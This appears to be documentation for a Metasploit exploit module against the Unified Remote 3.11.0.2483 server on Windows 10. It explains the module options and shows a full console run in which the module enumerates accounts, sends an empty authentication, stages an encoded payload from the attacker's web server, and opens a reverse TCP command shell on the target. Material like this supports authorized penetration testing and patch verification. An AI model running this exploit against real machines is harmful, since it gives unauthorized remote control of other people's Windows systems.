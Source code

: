 ### SLEEP

The length of time to sleep between each command, this gives the remote program time to process the command on screen.
Defaults to `1` second.

### PATH

Where to temporarily store the payload.  Defaults to `c:\\Windows\\Temp\\`

### VISIBLE

If set to `true`, uses a 'standard' method of typing to the screen. If set to `false`
utilizes a 'pro' feature of unified remote to execute a script in the background.
Defaults to `false`

## Scenarios

### Version 3.11.0.2483 on Windows 10, No authentication, visible false

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf exploit(windows/misc/unified_remote_rce) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-ASvxWyO708Rv4x0j
[*] 2.2.2.2:9512 - Retrieving server config
[+] 2.2.2.2:9512 - No security enabled
[+] 2.2.2.2:9512 - Found account: admin
[+] 2.2.2.2:9512 - Found account: wheres
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Loading Unified.Command
[*] 2.2.2.2:9512 - Updating Unified.Command
[*] 2.2.2.2:9512 - Sending payload
[*] 2.2.2.2:9512 - Executing script
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:50052) at 2022-09-18 19:00:33 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\U4culUYTuG.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\ProgramData\Unified Remote\Remotes\Bundled\Unified\Main\Command>
```
